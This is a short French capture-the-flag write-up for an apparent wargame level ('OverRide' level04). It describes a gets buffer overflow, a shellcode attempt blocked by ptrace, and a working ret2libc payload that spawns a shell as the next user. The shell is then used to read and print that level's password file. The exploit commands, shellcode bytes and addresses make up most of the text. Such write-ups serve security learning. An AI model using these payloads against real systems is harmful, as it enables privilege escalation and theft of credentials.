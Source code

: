 En desassemblant le code et en faisant un peu de calcul on se rend compte qu'il y a un buffer de 144 et que l'on peu réecrire EIP a 156 octets de décalage au moment de l'appel a gets 144 + 12 (REGISTRES)

On tente un shellcode.

```bash
export SC=$(python -c "print('\x90' * 42 + '\x31\xc0\x31\xd2\x31\xdb\x31\xc9\x68\x2f\x73\x68\x31\x80\x74\x24\x03\x31\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80')")
```

On récupere l'adresse de notre shellcode -> 0xffffdea7

En tentant cette technique on est bloqué par ptrace qui ne nous laisse pas executer de shell

```bash
level04@OverRide:~$ python -c "print('B' * 156 + '\xa7\xde\xff\xff')" | ./level04
Give me some shellcode, k
no exec() for you
level04@OverRide:~$
```
On va essayer la methode de ret2libC

On récupere l'adresse de:

system -> 0xf7e6aed0
"/bin/sh" -> 0xf7f897ec

Maintenant on réecris la stack pour appeler system("/bin/sh").

```bash
level04@OverRide:~$ python -c "print('B' * 156 + '\xd0\xae\xe6\xf7' + 'BBBB' + '\xec\x97\xf8\xf7')" > /tmp/level04.txt
level04@OverRide:~$ cat /tmp/level04.txt - | ./level04
Give me some shellcode, k
id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

